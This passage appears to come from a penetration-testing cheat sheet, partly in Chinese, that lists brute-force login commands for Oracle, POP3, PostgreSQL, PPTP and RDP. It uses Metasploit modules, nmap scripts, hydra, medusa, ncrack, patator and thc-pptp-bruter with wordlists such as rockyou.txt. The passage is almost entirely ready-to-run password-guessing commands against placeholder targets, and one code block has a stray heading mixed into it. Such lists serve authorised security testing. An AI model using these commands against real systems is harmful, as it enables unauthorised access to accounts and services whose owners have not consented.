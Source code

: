 ```
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#nmap fails sometimes for some reson executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

为了使用 patator 进行 oracle_login 登录操作，你首先需要安装一些依赖文件：
```
pip3 install cx_Oracle --upgrade
Offline OracleSQL hash bruteforce (versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3):
 nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30
```
### POP
```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
```
### PostgreSQL
```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```
### PPTP
```

你可以从这里下载 thc-pptp-bruter.deb文件进行安装: Index of /pool/main/t/thc-pptp-bruter

sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```
### RDP

方法一：
```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```
